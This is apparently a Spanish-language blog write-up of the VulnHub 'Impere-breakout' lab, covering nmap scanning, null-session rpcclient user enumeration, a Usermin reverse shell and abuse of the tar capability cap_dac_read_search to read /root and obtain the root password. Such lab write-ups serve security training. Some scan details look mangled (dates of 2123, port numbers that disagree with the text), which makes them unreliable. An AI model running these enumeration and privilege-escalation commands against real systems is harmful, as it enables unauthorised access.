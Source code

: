 ```yaml
---
layout: single
title: ImpereBreakout - VulnHub
excerpt: "Impere-breakout es una máquina vulnerable en VULNHUB. En este escenario, nos enfrentamos a una contraseña ofuscada mediante lenguaje esotérico. Posteriormente, nuestro objetivo es descubrir un usuario correspondiente a la contraseña encontrada. En este proceso, utilizaremos rpcclient para identificar un usuario válido.Después, aprovecharemos la capacidad (capability) cap_dac_read_search para acceder como usuario root."
date: 2023-11-10
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - capability
  - rpcclient
  - lenguajeEsotérico
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Impere-breakout es una máquina vulnerable en VULNHUB. En este escenario, nos enfrentamos a una contraseña ofuscada mediante lenguaje esotérico. Posteriormente, nuestro objetivo es descubrir un usuario correspondiente a la contraseña encontrada. En este proceso, utilizaremos rpcclient para identificar un usuario válido.Después, aprovecharemos la capacidad (capability) cap_dac_read_search para acceder como usuario root.


## Enumeración

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Mon Nov  6 14:58:16 2123 as: nmap -sCV -p81,139,445,11111,21111 -oN vulnscan.nmap 192.168.56.21
Nmap scan report for 192.168.56.21
Host is up (1.11126s latency).

PORT      STATE SERVICE     VERSION
81/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
11111/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 211 &mdash; Document follows
21111/tcp open  http        MiniServ 1.831 (Webmin httpd)
|_http-title: 211 &mdash; Document follows
MAC Address: 18:11:27:1E:E1:12 (Oracle VirtualBox virtual NIC)

Host script results:
|_clock-skew: -3h11m11s
| smb2-time: 
|   date: 2123-11-16T14:58:27
|_  start_date: N/A
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: 111111111111 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 14:58:58 2123 -- 1 IP address (1 host up) scanned in 42.42 seconds
```


## Analisis 

Inicializamos la enumeración por el servicio 80(HTTP).Si nos ubicamos al final de la página, identificaremos una cadena en lenguaje esotérico.


![](/assets/images/vulnhub-writeup-impereBreakout/lenguajeEsoterico.png)

Colocamos la cadena en lenguaje esotérico en una búsqueda en Google para determinar su uso, y así descubrimos que está codificada en Brainfuck.

![](/assets/images/vulnhub-writeup-impereBreakout/BuscarElTipoDeLenguaje.png)

Al decodificar tenemos una cadena de caracteres que aparenta ser una contraseña.

```bash
.2uqPEfj3D<P'a-3
```

Los servicios en los puertos 10000 (HTTPs) y 20000 (HTTPs) son específicamente interfaces de inicio de sesión. Para avanzar, necesitamos encontrar un usuario. Es importante tener en cuenta que ambas páginas web no permiten ataques de fuerza bruta.

### ¿Qué hacer?

Intentamos iniciar sesión en RPC como usuarios nulos y tenemos éxito.

```bash
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "srvinfo"
	BREAKOUT       Wk Sv PrQ Unx NT SNT Samba 4.13.5-Debian
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03
```

En rpcclient, hemos utilizado el parámetro llamado "lookupnames" para identificar usuarios del sistema. Esta acción nos ha proporcionado tanto el SID como el RID asociados al usuario identificado.

```bash
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "lookupnames root"
root S-1-22-1-0 (User: 1)
➜  impere-breakout rpcclient -U%% 192.168.56.21 -c "lookupnames www-data"
www-data S-1-22-1-33 (User: 1)
```

- El RID es un identificador único representado en hexadecimal para rastrear e identificar objetos.
- El SID consta de una cadena única de números y caracteres que representa de manera exclusiva un objeto de seguridad en un dominio

![](/assets/images/vulnhub-writeup-impereBreakout/SIDRID.png)

Podemos establecer que los SIDs para los usuarios del sistema siguen la estructura "S-1-22-1-RID (Identificador del usuario)". Por lo tanto, planeo realizar un enfoque similar a la fuerza bruta para descubrir la mayoría de los usuarios. Otra opción sería probar con una lista predefinida de usuarios y utilizar la función lookupnames, aunque este método podría requerir más tiempo.

![](/assets/images/vulnhub-writeup-impereBreakout/script-rpcclient-bash.png)

Lo que ejecuta cada función

![](/assets/images/vulnhub-writeup-impereBreakout/expresionesregularesEx.png)

## Shell-Cyber 

Utilizamos el ultimo usuario para iniciar sesión en Usermin

![](/assets/images/vulnhub-writeup-impereBreakout/login-Usermin.png)

Una vez iniciado sesión, nos dirigimos a esta parte para entablar una reverse shell.

![](/assets/images/vulnhub-writeup-impereBreakout/shell.png)

Una vez dentro del sistema, vemos un archivo interesante, llamado TAR. por lo que procedemos a listar sus capabilities.

![](/assets/images/vulnhub-writeup-impereBreakout/getcapTar.png)

Si buscamos la capabilitie en hacktricks vemos lo siguiente.

![](/assets/images/vulnhub-writeup-impereBreakout/gtfsbins.png)

Al parecer tenemos acceso a través del programa TAR, a cual quier archivo del programa por lo que procedo a traer toda la carpeta /root/. 

```bash
cyber@breakout:~/priv$ ../tar -czvf root.tar /root/
../tar: Removing leading `/' from member names
/root/
/root/.tmp/
/root/.spamassassin/
/root/.bash_history
/root/.profile
/root/.bashrc
/root/.usermin/
/root/.usermin/procmail/
/root/.usermin/mailbox/
/root/.usermin/mailbox/dsnreplies.pag
/root/.usermin/mailbox/dsnreplies.dir
/root/.usermin/mailbox/delreplies.dir
/root/.usermin/mailbox/delreplies.pag
/root/.usermin/spam/
/root/.usermin/filter/
/root/rOOt.txt
/root/.local/
/root/.local/share/
/root/.local/share/nano/
```
En el .bash_history vemos algo interesante, al parecer esta depositando la contraseña de root en un archivo.

![](/assets/images/vulnhub-writeup-impereBreakout/history-root.png)

Estamos en lo correcto.

```bash
cyber@breakout:~/priv/var/backups$ cat .old_pass.bak 
Ts&4&YurgtRX(=~h
cyber@breakout:~/priv/var/backups$ 
```
Logrado.

![](/assets/images/vulnhub-writeup-impereBreakout/root-pass.png)
